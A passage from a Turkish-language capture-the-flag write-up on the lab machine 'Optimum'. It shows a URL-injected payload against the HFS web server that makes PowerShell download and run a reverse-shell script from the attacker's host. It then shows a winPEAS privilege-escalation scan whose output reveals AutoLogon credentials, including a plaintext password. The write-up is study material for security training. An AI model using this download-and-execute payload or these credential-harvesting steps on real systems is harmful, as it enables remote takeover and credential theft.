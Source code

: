 
Bunun bir kopyasını rev.ps1 olarak kaydedeceğim (sadece talep etmek üzere olduğum URL'yi daha kolay hale getirmek için). Sonra bir Python web sunucusu başlatacağım ve ziyaret edeceğim:

```
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.16.9/rev.ps1').}
```

Bu da Optimum'un web sunucusuna ulaşıp rev.ps1 dosyasını indirmesini (ilginç bir şekilde dört kez) tetikliyor:

![Pasted image 20250209180026.png](/img/user/Pasted%20image%2020250209180026.png)

![Pasted image 20250209180033.png](/img/user/Pasted%20image%2020250209180033.png)

![Pasted image 20250209180132.png](/img/user/Pasted%20image%2020250209180132.png)


## Shell as SYSTEM

### Enumeration - winPEAS

Yükselme yollarını aramak için [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) ile başladım. Deponun bir kopyasını hostuma klonladım, sudo smbserver.py share ile Windows exe ile yolda bir SMB sunucusu başlattım . -smb2support ile başlattım ve Optimum'a kopyaladım:

```
PS C:\programdata> copy \\10.10.14.10\share\winPEAS.exe .
```

Şimdi .\winPEAS.exe ile çalıştıracağım. Çıktıyı taradığımda birkaç ilginç şey gördüm.

Kutu Windows Server 2012 R2 ve 64-bit:

```
    Hostname: optimum                               
    ProductName: Windows Server 2012 R2 Standard
    EditionID: ServerStandard                       
    ReleaseId:                                      
    BuildBranch:                                    
    CurrentMajorVersionNumber:                      
    CurrentVersion: 6.3                             
    Architecture: AMD64
```


Kostas için Creds vardı:

```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*  
```
